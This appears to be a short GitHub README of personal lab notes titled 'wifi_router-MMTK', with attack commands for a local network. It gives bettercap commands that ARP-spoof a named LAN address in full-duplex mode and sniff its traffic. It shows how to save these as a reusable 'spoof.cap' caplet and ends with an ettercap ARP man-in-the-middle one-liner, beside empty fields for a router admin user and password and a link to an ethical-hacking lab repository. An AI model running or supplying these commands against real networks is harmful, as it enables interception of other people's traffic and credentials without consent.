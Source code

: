 # wifi_router-MMTK

### bettercap -iface wlan0
  
    
 
 net.probe on
 
 set arp.spoof.fullduplex true 
 
 set arp.spoof.targets 10.0.2.5
 
 arp.spoof on
 
 set net.sniff.local true
 
 net.sniff on


# Automate BetterCAP using Caplets
To be more efficient on your work, you can automate the modules setup part by creating a simple Caplet file(file.cap) and adding the commands per line.

## Create the caplet:

touch spoof.cap

## Add the commands and save it :

nano spoof.cap

   
   
   net.probe on
   
   set arp.spoof.fullduplex true 
   
   set arp.spoof.targets 192.168.0.131
   
   arp.spoof on
   
   set net.sniff.local true
   
   net.sniff on


As you can see is the same commands in order that you used previously.

## Start the Bettercap using the spoof Caplet that you created:

    bettercap -iface eth0 -caplet spoof.cap



# hacking lave
https://github.com/Samsar4/Ethical-Hacking-Labs/tree/master



## Ettercap wifi admin penel

 user:-

 password:- 



ettercap -Tq -M arp:remote -i wlan0 ///

